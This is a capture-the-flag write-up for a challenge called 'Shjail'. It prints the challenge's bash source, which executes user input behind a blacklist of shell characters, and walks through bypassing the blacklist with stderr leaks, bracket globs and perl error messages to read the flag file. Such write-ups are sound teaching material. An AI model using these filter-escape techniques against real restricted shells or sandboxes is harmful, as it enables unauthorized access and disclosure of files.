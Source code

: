 # Shjail
**Category: Misc**

This challenge allows us to run a shell command on the remote system. The catch is that there is a character blacklist, and the output from commands you submit is hidden.

The source was provided:

```sh
#!/bin/bash
RED='\e[0;31m'
END='\e[0m'
GREEN='\e[0;32m'

while :
do
    echo "What would you like to say?"
	read USER_INP
       	if [[ "$USER_INP" =~ ['&''$''`''>''<''/''*''?'txcsbqi] ]]; then
               	echo -e "${RED}Hmmmm, what are you trying to do?${END}"
       	else
               	OUTPUT=$($USER_INP) &>/dev/null
               	echo -e "${GREEN}The command has been executed. Let's go again!${END}"
       	fi
done 
```


The first thing I realized was that stdout is blocked, but stderr is actually available. For example:

```
What would you like to say?
pwd
The command has been executed. Let's go again!
```
Notice how `pwd` returns no output.

```
What would you like to say?
fake
./shjail.sh: line 13: fake: command not found
```
But this nonexistant command does, since the output is written to stderr. Unfortunately, the operator to redirect stdout to stderr is blacklisted.

## Finding the flag
Next, we need to try and find where the flag file is. It is probably just `./flag.txt`, but this needs to be confirmed. We can't open it with `cat` since `t` is blocked, but we can use `od`. We can't write the `txt` part of `flag.txt`, or even use `flag.*`. We can write it out using bracket glob characters though. All together:

```
What would you like to say?
od flag.[a-z][a-z][a-z]
The command has been executed. Let's go again!
```

Since no file not found error was reported, we know the flag file is in the local directory.

## Opening the flag
From here we need a way to open the flag file in a way that prints the result to stderr. We can try and execute the file with a program that produces a verbose error message:

```
What would you like to say?
perl flag.[a-z][a-z][a-z]
Can't locate object method "flag" via package "w3ll_th1s_f1l3_sh0uldnt_h4v3_fl4g_1n_2738372131" (perhaps you forgot to load "w3ll_th1s_f1l3_sh0uldnt_h4v3_fl4g_1n_2738372131"?) at flag.txt line 1.
```

Perfect! This reveals the flag to be `flag{w3ll_th1s_f1l3_sh0uldnt_h4v3_fl4g_1n_2738372131}`.